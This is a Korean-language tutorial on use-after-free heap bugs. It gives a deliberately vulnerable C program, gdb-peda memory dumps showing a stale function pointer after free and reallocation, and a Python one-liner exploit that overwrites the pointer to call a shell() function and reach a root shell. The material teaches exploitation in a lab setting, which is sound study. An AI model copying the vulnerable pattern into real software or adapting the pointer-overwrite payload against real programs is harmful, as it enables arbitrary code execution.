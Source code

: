 # **User after free**

Heap 영역에 할당을 할때 Free 해준 공간을 다시 재사용하여 발생하는 취약점이다.
만약 함수포인터가 동적할당이 되어있을 경우 실행흐름도 조작 가능하다.


## **Conditions**
* 공격자가 Heap 영역을 할당하거나 해제할 수 있어야하고 해제된 영역의 크기와 같거나 작은 영역을 할당해야 한다.

## **Proof of Concept**

```c
// gcc uaf.c -o uaf
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
typedef struct {
    char name[32];
    void (*print)(void*);
} test;
 
typedef struct {
    char name[128];
} string;
 
void printName(test *t) {
    printf("%s\n", t->name);
}
 
void shell() {
    printf("This is shell!! You know UAF vuln!\n");
    system("/bin/sh");
}
 
int main() {
    test* t1;
    string *s1;
    t1 = malloc(256);
    
    strcpy(t1->name, "I LOVE CHAEYOUNG");
    t1->print = (void*)printName;
    
    t1->print(t1);
    
    free(t1);
    
    s1 = malloc(256);
    
    scanf("%128s", s1->name);
    t1->print(t1);
    return 0;
}
```

* malloc() 함수로 Heap을 재할당 하는 부분에서 Breakpoint를 걸고 확인해보면 t1에서 사용했던 함수 포인터(printName)를 확인할 수 있다. 
* t1->name은 fk, bk로 채워진 것을 확인할 수 있다.

```
[-------------------------------------code-------------------------------------]
   0x4006ee <main+82>:	call   0x400500 <free@plt>
   0x4006f3 <main+87>:	mov    edi,0x100
   0x4006f8 <main+92>:	call   0x400540 <malloc@plt>
=> 0x4006fd <main+97>:	mov    QWORD PTR [rbp-0x8],rax
   0x400701 <main+101>:	mov    rax,QWORD PTR [rbp-0x8]
   0x400705 <main+105>:	mov    rsi,rax
   0x400708 <main+108>:	mov    edi,0x4007e3
   0x40070d <main+113>:	mov    eax,0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006fd in main ()
gdb-peda$ info r rax
rax            0x602010	0x602010
gdb-peda$ x/12gx 0x602010
0x602010:	0x00007ffff7dd1b78               0x00007ffff7dd1b78
0x602020:	0x0000000000000000               0x0000000000000000
0x602030:	0x0000000000400666 <- printName  0x0000000000000000

gdb-peda$ x/3i 0x0000000000400666
   0x400666 <printName>:	push   rbp
   0x400667 <printName+1>:	mov    rbp,rsp
   0x40066a <printName+4>:	sub    rsp,0x10
```

* 따라서 32 byte를 입력 후 함수 포인터에 &shell()를 입력하면 t1->print(t1)을 호출하므로 shell()을 호출이 가능하다.

```
gdb-peda$ x/12gx 0x602010
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4242424242424242 	0x0000000000000000

gdb-peda$ p shell
$1 = {<text variable, no debug info>} 0x400681 <shell>
```

## **Exploit**
```
root@bs-virtual-machine:~/pwnable/uaf# (python -c 'print "A"*32 + "\x81\x06\x40"';cat) | ./uaf
UAF TEST!!!
This is shell!! You know UAF vuln!

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root/pwnable/uaf
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=1148139>  
<https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/>  
<https://shotgh.tistory.com/62>  